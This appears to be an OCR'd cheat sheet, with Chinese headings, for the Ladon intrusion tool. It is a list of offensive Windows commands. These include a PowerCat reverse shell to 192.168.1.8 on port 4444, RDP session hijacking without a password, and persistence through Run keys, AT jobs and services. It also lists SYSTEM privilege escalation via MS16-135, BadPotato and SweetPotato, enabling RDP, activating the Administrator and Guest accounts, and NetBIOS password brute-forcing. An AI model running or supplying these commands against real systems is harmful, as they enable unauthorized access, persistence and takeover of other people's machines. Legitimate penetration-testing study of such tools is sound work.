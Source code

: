 ```
Ladon PowerCat 192.168.1.8 4444 cmd udp Ladon PowerCat 192.168.1.8 4444 psh udp

##RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3 Ladon RDPHijack 3 console

##OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan Ladon 192.168.1.8/24 OxidScan

##查看用户最近访问文件
Ladon Recent

##添加注册表Run启动项
Ladon RegAuto Test c:\123.exe

##AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe Ladon at c:\123.exe gui

##SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe Ladon sc c:\123.exe gui Ladon sc c:\123.exe auto ServerName

##MS16135提权至SYSTEM
Ladon ms16135 whoami

##BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline

##SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline

##whoami查看当前用户权限以及特权
Ladon whoami

##Open3389一键开启3389
Ladon Open3389

##RdpLog查看3389连接记录
Ladon RdpLog

##QueryAdmin查看管理员用户
Ladon QueryAdmin

##激活内置管理员Administrator
Ladon ActiveAdmin

##激活内置用户Guest
Ladon ActiveGuest

##查看本机命名管道
Ladon GetPipe

##39端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan
```
